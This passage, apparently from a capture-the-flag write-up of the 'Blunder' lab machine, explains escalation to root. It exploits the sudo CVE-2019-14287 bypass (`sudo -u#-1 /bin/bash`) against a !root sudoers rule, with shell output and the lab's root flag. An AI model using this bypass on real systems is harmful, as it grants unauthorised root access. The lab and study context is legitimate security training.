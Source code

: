 It means not root (!root), so I can run `/bin/bash` as any users except root.

However, there's a vulnerability to bypass user restriction (https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability).

https://access.redhat.com/security/cve/cve-2019-14287

It affects sudo versions before 1.8.28 (https://www.cvedetails.com/cve/CVE-2019-14287).

Blunder is running `1.8.25p1` so it is vulnerable.

```bash
hugo@blunder:~$ sudo --version
Sudo version 1.8.25p1
Sudoers policy plugin version 1.8.25p1
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.25p1
```

When running sudo, you can enter username or user id (UID) with `-u` argument. Sudo uses 0, so I tried that and it failed. Vulnerability is with `-1` and sudo will treat that as root.

```bash
hugo@blunder:~$ sudo -u#0 /bin/bash
Sorry, user hugo is not allowed to execute '/bin/bash' as root on blunder.

hugo@blunder:~$ sudo -u#-1 /bin/bash

root@blunder:/home/hugo# cat /root/root.txt
288af12dc883d4fa65a8afb057846c51
```
